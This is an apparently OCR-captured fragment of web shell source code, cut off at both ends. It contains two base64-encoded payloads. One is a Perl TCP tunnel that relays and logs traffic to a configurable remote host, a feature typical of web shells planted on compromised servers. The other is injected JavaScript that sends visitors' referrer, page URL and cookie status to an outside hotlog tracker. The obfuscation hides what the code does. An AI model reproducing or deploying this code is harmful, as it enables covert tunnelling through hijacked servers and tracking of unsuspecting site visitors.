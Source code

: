 WRkcicgPT4gJG8tPnsndG9ob3N0J30sJ1BlZXJQb3J0JyA9PiAkby0+eyd0b3BvcnQnfSk7DQppZiAoISR0aCkgeyBleGl0IDA7IH0NCm15ICRmaDsN
CmlmICgkby0+eydkaXInfSkgeyAkZmggPSBTeW1ib2w6OmdlbnN5bSgpOyBvcGVuKCRmaCwgIj4kby0+eydkaXInfS90dW5uZWwkbnVtLmxvZyIpIG9
yIGRpZSAiJCEiOyB9DQokY2gtPmF1dG9mbHVzaCgpOw0KJHRoLT5hdXRvZmx1c2goKTsNCndoaWxlICgkY2ggfHwgJHRoKSB7DQpteSAkcmluID0gIi
I7DQp2ZWMoJHJpbiwgZmlsZW5vKCRjaCksIDEpID0gMSBpZiAkY2g7DQp2ZWMoJHJpbiwgZmlsZW5vKCR0aCksIDEpID0gMSBpZiAkdGg7DQpteSgkc
m91dCwgJGVvdXQpOw0Kc2VsZWN0KCRyb3V0ID0gJHJpbiwgdW5kZWYsICRlb3V0ID0gJHJpbiwgMTIwKTsNCmlmICghJHJvdXQgICYmICAhJGVvdXQp
IHt9DQpteSAkY2J1ZmZlciA9ICIiOw0KbXkgJHRidWZmZXIgPSAiIjsNCmlmICgkY2ggJiYgKHZlYygkZW91dCwgZmlsZW5vKCRjaCksIDEpIHx8IHZ
lYygkcm91dCwgZmlsZW5vKCRjaCksIDEpKSkgew0KbXkgJHJlc3VsdCA9IHN5c3JlYWQoJGNoLCAkdGJ1ZmZlciwgMTAyNCk7DQppZiAoIWRlZmluZW
QoJHJlc3VsdCkpIHsNCnByaW50IFNUREVSUiAiJCFcbiI7DQpleGl0IDA7DQp9DQppZiAoJHJlc3VsdCA9PSAwKSB7IGV4aXQgMDsgfQ0KfQ0KaWYgK
CR0aCAgJiYgICh2ZWMoJGVvdXQsIGZpbGVubygkdGgpLCAxKSAgfHwgdmVjKCRyb3V0LCBmaWxlbm8oJHRoKSwgMSkpKSB7DQpteSAkcmVzdWx0ID0g
c3lzcmVhZCgkdGgsICRjYnVmZmVyLCAxMDI0KTsNCmlmICghZGVmaW5lZCgkcmVzdWx0KSkgeyBwcmludCBTVERFUlIgIiQhXG4iOyBleGl0IDA7IH0
NCmlmICgkcmVzdWx0ID09IDApIHtleGl0IDA7fQ0KfQ0KaWYgKCRmaCAgJiYgICR0YnVmZmVyKSB7KHByaW50ICRmaCAkdGJ1ZmZlcik7fQ0Kd2hpbG
UgKG15ICRsZW4gPSBsZW5ndGgoJHRidWZmZXIpKSB7DQpteSAkcmVzID0gc3lzd3JpdGUoJHRoLCAkdGJ1ZmZlciwgJGxlbik7DQppZiAoJHJlcyA+I
DApIHskdGJ1ZmZlciA9IHN1YnN0cigkdGJ1ZmZlciwgJHJlcyk7fSANCmVsc2Uge3ByaW50IFNUREVSUiAiJCFcbiI7fQ0KfQ0Kd2hpbGUgKG15ICRs
ZW4gPSBsZW5ndGgoJGNidWZmZXIpKSB7DQpteSAkcmVzID0gc3lzd3JpdGUoJGNoLCAkY2J1ZmZlciwgJGxlbik7DQppZiAoJHJlcyA+IDApIHskY2J
1ZmZlciA9IHN1YnN0cigkY2J1ZmZlciwgJHJlcyk7fSANCmVsc2Uge3ByaW50IFNUREVSUiAiJCFcbiI7fQ0KfX19DQo=";
$c1 = "PHNjcmlwdCBsYW5ndWFnZT0iamF2YXNjcmlwdCI+aG90bG9nX2pzPSIxLjAiO2hvdGxvZ19yPSIiK01hdGgucmFuZG9tKCkrIiZzPTgxNjA2
JmltPTEmcj0iK2VzY2FwZShkb2N1bWVudC5yZWZlcnJlcikrIiZwZz0iK2VzY2FwZSh3aW5kb3cubG9jYXRpb24uaHJlZik7ZG9jdW1lbnQuY29va2l
lPSJob3Rsb2c9MTsgcGF0aD0vIjsgaG90bG9nX3IrPSImYz0iKyhkb2N1bWVudC5jb29raWU/IlkiOiJOIik7PC9zY3JpcHQ+PHNjcmlwdCBsYW5ndW
FnZT0iamF2YXNjcmlwdDEuMSI+aG90bG9nX2pzPSIxLjEiO2hvdGxvZ19yKz0iJmo9IisobmF2aWdhdG9yLmphdmFFbmFibGVkKCk/IlkiOiJOIik8L
3NjcmlwdD48c2NyaXB0IGxhbmd1YWdlPSJqYXZhc2NyaXB0MS4yIj5ob3Rsb2dfanM9IjEuMiI7aG90bG9nX3IrPSImd2g9IitzY3JlZW4ud2lkdGgr
J3gnK3NjcmVlbi5oZWlnaHQrIiZweD0iKygoKG5hdmlnYXRvci5hcHBOYW1lLnN1YnN0cmluZygwLDMpPT0iTWljIikpP3NjcmVlbi5jb2xvckRlcHR
oOnNjcmVlbi5waXhlbERlcHRoKTwvc2NyaXB0PjxzY3JpcHQgbGFuZ3VhZ2U9ImphdmFzY3JpcHQxLjMiPmhvdGxvZ19qcz0iMS4zIjwvc2NyaXB0Pj
xzY3JpcHQgbGFuZ3VhZ2U9ImphdmFzY3JpcHQiPmhvdGxvZ19yKz0iJmpzPSIraG90bG9nX2pzO2RvY3VtZW50LndyaXRlKCI8YSBocmVmPSdodHRwO
